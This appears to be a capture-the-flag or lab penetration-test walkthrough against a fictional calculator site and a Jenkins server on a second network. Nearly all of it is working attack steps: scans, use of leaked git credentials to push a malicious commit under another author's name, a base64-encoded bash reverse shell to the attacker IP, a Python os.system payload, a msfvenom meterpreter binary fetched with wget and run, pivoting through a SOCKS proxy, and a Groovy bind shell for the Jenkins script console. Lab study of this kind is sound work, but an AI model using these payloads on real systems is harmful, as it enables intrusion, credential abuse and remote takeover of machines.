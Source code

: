 # Black-box Penetration Test 2

Attacker IP:  192.148.53.2
Target Domain : http://online-calc.com/
Target IP     : 192.148.53.3

## Ping Sweep
nmap -sn 192.148.53.0/24 | grep "192*" | cut -d ' ' -f6 | tr -d '(' | tr ')' ' '

## Nmap Scan
nmap -sS -sV -A 192.148.53.3

## Dirb Scan
dirb http://online-calc.com:8000/.git/

http://online-calc.com:8000/.git/HEAD                                                                         
http://online-calc.com:8000/console
http://online-calc.com:8000/.git/config
  |
    name = Jeremy McCarthy <jeremy@dummycorp.com>
      email = jeremy@dummycorp.com
      password = diamonds
      username = jeremy

      http://online-calc.com/projects/online-calc
-------------------------------------------------------------------------------
git clone http://online-calc.com/projects/online-calc
cd online-calc
git logs
modify API.py
git add .
git commit -m "bug fix" --author "Jeremy McCarthy <jeremy@dummycorp.com>"
git push

## Reverse Shell
echo 'bash -c "bash -i >& /dev/tcp/192.148.53.2/7777 0>&1"' | base64
  o/p: YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTQ4LjUzLjIvNzc3NyAwPiYxIgo=

## Payload to get netcat connection
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTQ4LjUzLjIvNzc3NyAwPiYxIgo= | base64 -d | bash")

## Run netcat listener in terminal
nc -lvp 7777

find / -iname *flag*
cat flag.txt

## Prepare payload for meterpreter connection
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.148.53.2 LPORT=8888 -f elf > payload.bin

## Run python webserver to transfer payload on compromised machine
python -m SimpleHTTPServer

## Download payload on compromised machine
wget 192.148.53.2:8000/payload.bin
chmod +x payload.bin

## Meanwhile keep meterpreter multi handler listener ready
use multi/handler
set LHOST 192.148.53.2
set LPORT 8888
exploit

## Run payload on compromised machine
./payload.bin

# In meterpreter session get the second network ip to pivot
ifconfig

# Second network  : 192.78.79.2
## Put meterpreter session in background and add route
bg
route add 192.78.79.0/24 1 (1 is session id)

## Set up Socks proxy convert the meterpreter session to serve as a socks
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
run -j

## Run port scan
use auxiliary/scanner/portscan/tcp
set RHOSTS
set RPORT
set ....
exploit

## Run nmap scan
proxychains nmap -sT -sV -Pn 192.78.79.3

jenkins service is running on port 8080

## Configure Socks4 proxy in browser to access jenkins dashboard via browser
visit 192.78.79.3:8080

## Go to script console and put following bind shell in console and hit run

int port=5555;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

## Start netcat listener on port 5555
proxychains nc -v 192.78.79.3 5555
ls
id
ps aux
